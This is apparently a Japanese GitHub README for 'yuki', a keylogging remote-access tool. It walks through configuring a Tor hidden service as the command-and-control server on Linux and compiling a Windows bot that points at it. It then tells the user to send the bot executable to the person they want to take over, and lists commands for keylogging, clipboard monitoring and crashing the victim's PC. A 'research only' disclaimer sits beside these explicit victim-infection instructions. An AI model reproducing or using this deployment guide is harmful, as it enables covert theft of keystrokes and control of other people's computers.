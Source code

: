 # yuki
keylogger搭載してるというか、それに特化したハッキングツール。<br>

ちなみに、カレントディレクトリの表示は動作確認用<br>

**バグあったらware255のTwitterかDiscordのDMで教えてね。**

## 動作環境
### C&C
* Linux (Debian)
### Bot
* Windows 10

## 注意
<b>研究目的以外での使用をおやめください。</b> <br>
研究目的以外で使用した場合責任を負いません。自己責任。<br><br>
使用するとき、仮想マシンが必須になるかもしれません。<br>
あと、多少のバグは許して...

## コンパイル
WindowsとLinuxと同時に使って環境構築をしていきます。<br>
まずは、Linuxから設定をしていきます。<br>

Torをインストール
```
$ sudo apt install tor
```
インストールが終わったらtorrcを編集します。
```
$ sudo vi /etc/tor/torrc
```
ソースコードの関係上以下の通りに書き換えてください。
```
HiddenServiceDir /var/lib/tor/hidden_service/
HiddenServicePort 80 127.0.0.1:8080
```
ここでほぼほぼLinuxでの設定は完了します。<br>
では、以下のコマンドを実行しちゃって終わらせちゃいましょう。
```
$ bash build.sh
```
ちなみに、onionサイトのドメイン名を確認するには
```
$ sudo cat /var/lib/tor/hidden_service/hostname
```

<br>
次は、Windowsにうつって環境構築していきます。<br>
ぶっちゃけて言うとクロスコンパイラ使えば問題ないと思いますが、めいんどいので今回は解説しません。<br>

まず、botというディレクトリのなかのmain.cppを開きます。<br>

そしたら、xxxxxxxxxxxxxxxxxxxxxxxxxxx.onionをcncサーバのドメイン名に書き換えてください。
```c
#define cnc_onion_server    "xxxxxxxxxxxxxxxxxxxxxxxxxxx.onion"
```
終わったらbuild.batを実行してコンパイル終了です。

## 使い方
必ず最初にLinuxでcnc.outを実行してください。
```
$ ./cnc.out
```
そしたら、コンパイルしたbot.exeを乗っ取りたい相手に送ってください。<br>
<br>
乗っ取りに成功しましたら`help`をつかってどのコマンドが使えるか確認することができます。
```
root@cnc:~$ help
Command List
       pwd        - view current directory
       keylogger  - get the characters you entered
       cliplogger - clipboard monitoring
       all_log    - monitor almost all logs
       crash      - makes pc go crazy
```
pwd以外のコマンドを使った場合、Ctrl+Cで閉じないと終わる方法がありませんので注意。<br>
(あとで、C&Cサーバの起動に時間がかかることには目を瞑って...)

## 参考資料
[RAT](https://github.com/ware255/RAT) <br>
[ Working with Tor (C/C++) ](https://gist.github.com/anhldbk/f62fbe5e5a0e48740c6959e3e0907c81) <br>
[ Simple keylogger in C++ ](https://gist.github.com/cdohara/99f3ac257b6f98d723818aedd1c39a4e)
